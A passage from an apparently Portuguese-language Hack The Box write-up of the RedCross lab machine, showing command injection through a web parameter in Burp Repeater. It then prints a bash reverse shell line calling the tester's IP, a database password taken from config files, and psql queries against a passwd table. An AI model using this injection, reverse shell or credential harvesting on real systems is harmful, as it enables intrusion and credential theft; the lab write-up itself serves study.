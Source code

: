 Mandamos para o BurpSuite

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www8.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www10.png)

Repeater

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www9.png)

Agora começamos a interação... A minha ideia de Payload é que está sendo executado como se fosse `COMANDO 8.8.8.8`, seguindo essa ideia, se adicionarmos um ; após o final do IP, se for shell, o outro comando será executado... vamos testar

Bem não deu certo

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www11.png)

Agora se testamos com deny... Dá certo (isso é com teste pra descobrir, não sei como posso fazer pra explicar isso)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www12.png)

Bom, agora pegamos um reverse shell `;bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'` (Lembrar de encodar pra URL)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www13.png)

Show, temos shell de www-data na máquina

Bom, agora vamos "escalar" pra penélope. Para isso pesquisamos credenciais nos arquivos de configuração da página web

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www14.png)

Encontramos as credenciais do banco de dados, muito bom! A que me interessa é essa, uma vez que pode adicionar usuários

`$dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");`

Então nos conectamos ao banco de dados para ver se encontramos algo

`psql -h 127.0.0.1 -U unixusrmgr unix`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www15.png)

Com o comando `\d` listamos todas as tabelas

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www16.png)

Agora listamos essa `passwd_table` que nos chamou atenção

`select * from passwd_table;`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-redcross/R_www17.png)
